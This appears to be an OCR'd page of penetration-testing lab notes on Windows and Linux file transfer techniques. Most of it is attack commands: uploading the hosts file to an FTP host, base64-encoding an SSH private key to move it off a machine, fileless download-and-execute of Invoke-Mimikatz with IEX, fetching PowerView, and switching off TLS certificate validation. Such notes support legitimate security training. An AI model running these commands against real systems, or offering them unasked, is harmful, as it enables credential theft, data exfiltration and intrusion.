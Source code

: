```powershell
  C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

## Summary

## Downloads

### Base64 Encode & Decode

```bash
  md5sum ~/.ssh/id_rsa
  # 4e301756a07ded0a2dd6953abf015278  id_rsa
  cat id_rsa | base64 -w 0;echo
  # LS0tLS1CRUdJTiBPUEVOU1N...
```

Copy the base64 string and paste it into PowerShell to decode it.

```powershell
  [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1N..."))
  Get-FileHash C:\Users\Public\id_rsa -Algorithm MD5
```

### PowerShell DownloadFile

```powershell
  (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
  (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
  (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

**DownloadString - Fileless Method**

```powershell
  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
  (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

**PowerShell Invoke-WebRequest**

```powershell
  Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

- Prevent error for Internet Explorer first-launch configuration:
    * `-UseBasicParsing`
- Prevent error for SSL/TLS secure channel:
    * `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
